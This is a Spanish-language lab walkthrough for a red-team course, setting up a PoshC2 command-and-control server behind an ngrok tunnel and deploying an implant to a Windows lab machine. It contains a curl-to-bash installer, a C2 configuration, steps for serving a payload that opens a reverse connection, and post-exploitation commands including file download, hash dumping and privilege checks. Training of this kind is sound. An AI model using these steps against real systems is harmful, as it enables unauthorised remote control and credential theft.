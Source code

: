 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

- **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

- **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install poshc2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
   
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2

    
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 
- En el parametro PayloadCommsHost se deberá  reemplazar por la url de ngrok
   ```
   # ngrok http 8080
   ```
      
- Para configurar el PoshC2 ejecutar: `posh-config`

  Ejemplo de configuración de PoshC2:

```
  # These options are loaded into the database on first run, changing them after
  # that must be done through commands (such as set-defaultbeacon), or by
  # creating a new project

  # Server Config
  BindIP: '0.0.0.0'
  BindPort: 8080

  # Database Config
  DatabaseType: "SQLite" # or Postgres
  PostgresConnectionString: "dbname='poshc2_project_x' port='5432' user='admin' host='192.168.111.111' password='XXXXXXX'" # Only used if Postgres in use

  # Payload Comms
  PayloadCommsHost: "http://f3a1-2001-1388-70c5-cc21-cd1d-168c-c3ae-7880.ngrok.io" # "https://www.domainfront.com:443,https://www.direct.com"
  DomainFrontHeader: ""  # "axpejfaaec.cloudfront.net,www.direct.com"
  Referrer: ""  # optional
  ServerHeader: "Apache"
  UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36"  # This should be updated to match the environment, this is Chrome on 2020-03-2

  DefaultSleep: "5s"
  Jitter: 0.20
  KillDate: "2999-12-01"  # yyyy-MM-dd
  UrlConfig: "urls" # Beacon URLs will be taken from resources/urls.txt if value is 'urls'. If value is 'wordlist' beacon URLs will be randomly generated on server creation from resources/wordlist.txt

  # Payload Options
  PayloadStageRetries: true
  PayloadStageRetriesInitialWait: 60 # Stager will retry after this many seconds, doubling the wait each time if it fails
  PayloadStageRetriesLimit: 30 # Stager retry attempts before failing
  DefaultMigrationProcess: "C:\\Windows\\system32\\netsh.exe"  # Used in the PoshXX_migrate.exe payloads
  PayloadDomainCheck: "" # If non-empty then the UserDomain on the target will be checked and if it 'contains' this value then the payload will execute, else it will not.

  # Notifications Options
  NotificationsProjectName: "PoshC2"
  EnableNotifications: "No"

  # Pushover - https://pushover.net/
  Pushover_APIToken: ""
  Pushover_APIUser: ""

  # Slack - https://slack.com/
  Slack_BotToken: "" # The token used by the application to authenticate. Get it from https://[YourSlackName].slack.com/apps/A0F7YS25R (swap out [YourSlackName]). Should start with xobo-.
  Slack_UserID: "" # Found under a users profile (i.e UHEJYT2AA). Can also be "channel". 
  Slack_Channel: "" # i.e #bots

  # SOCKS Proxying Options
  SocksHost: "http://127.0.0.1:49031"

  # PBind Options
  PBindPipeName: "jaccdpqnvbrrxlaf"
  PBindSecret: "mtkn4"

  # FComm Options
  FCommFileName: "C:\\Users\\Public\\Public.ost"
```

- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*




